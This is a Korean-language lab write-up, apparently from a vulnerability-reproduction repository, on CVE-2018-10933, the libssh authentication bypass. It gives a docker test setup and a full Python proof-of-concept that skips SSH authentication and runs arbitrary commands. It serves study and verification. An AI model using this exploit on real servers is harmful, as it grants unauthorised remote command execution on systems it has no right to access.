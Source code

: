 # CVE-2018-10933

**Contributor**
- 진규정(@gyutrange)
<br/>

### 취약점에 대한 요약

- libssh는 클라이언트 및 서버 측에 SSHv2 프로토콜을 구현하는 다중 플랫폼 C 라이브러리임.
- libssh의 서버 측 상태 시스템에 논리 취약점이 발견됨.
- 공격자는 인증이 성공하기 전에 'MSG_USERAUTH_SUCCESS' 메시지를 보낼 수 있음.
- 이를 통해 인증을 무시하고 대상 SSH 서버에 액세스할 수 있음.

<br/>

참고자료 및 문헌:

- https://www.libssh.org/security/advisories/CVE-2018-10933.txt
- https://www.seebug.org/vuldb/ssvid-97614

<br/>

## 환경설정 및 실행

다음의 명령어를 통해 테스트 환경을 구성함.

```
docker compose up -d
```

환경이 실행되고 나면, `your-ip:2222` 포트와 (계정 비밀번호: `myuser:mypassword`)룰 통해 접속할 수 있음. 
정상적인 접속은 다음과 같음.

![](1.png)

<br/>

## 공격

POC는 다음 사이트에 자세하게 나와있음. https://www.seebug.org/vuldb/ssvid-97614,
<br/>다음의 코드를 통해 이 취약점이 실제 존재함을 증명할 수 있음.

```python
#!/usr/bin/env python3

import sys
import paramiko
import socket
import logging

# 로깅 설정, 표준 출력으로 로그 출력.
logging.basicConfig(stream=sys.stdout, level=logging.DEBUG)

bufsize = 2048

# SSH 명령 실행 함수 정의
def execute(hostname, port, command):

    # TCP 소켓 생성
    sock = socket.socket()

    try:
        # 원격 호스트와 포트로 소켓 연결 시도
        sock.connect((hostname, int(port)))

        # Paramiko 라이브러리를 사용하여 SSH 연결을 설정.
        message = paramiko.message.Message()
        transport = paramiko.transport.Transport(sock)
        transport.start_client()

        # SSH 사용자 인증 요청 메시지를 보냄. --> 취약점 익스플로잇
        message.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
        transport._send_message(message)
        
         # SSH 세션을 열고 지정된 명령을 실행.
        client = transport.open_session(timeout=10)
        client.exec_command(command)
       

        stdout = client.makefile("rb", bufsize)
        stderr = client.makefile_stderr("rb", bufsize)

        output = stdout.read()
        error = stderr.read()

        stdout.close()
        stderr.close()

        # 문자열 디코딩
        return (output + error).decode()
    except paramiko.SSHException as e:

        # SSH 연결 예외 처리
        logging.exception(e)
        logging.debug("TCPForwarding disabled on remote server can't connect. Not Vulnerable")

        # SSH 연결 중에 발생하는 예외를 처리하고 로그 기록.
    except socket.error:
        # 소켓 연결 예외 처리
        logging.debug("Unable to connect.")

    return None

if __name__ == '__main__':

    print(execute(sys.argv[1], sys.argv[2], sys.argv[3]))


```

위 코드의 실행으로, 공격 대상 서버에서 임의의 명령어를 실행할 수 있게 됨.

<br/>

## 결과
![](2.png)
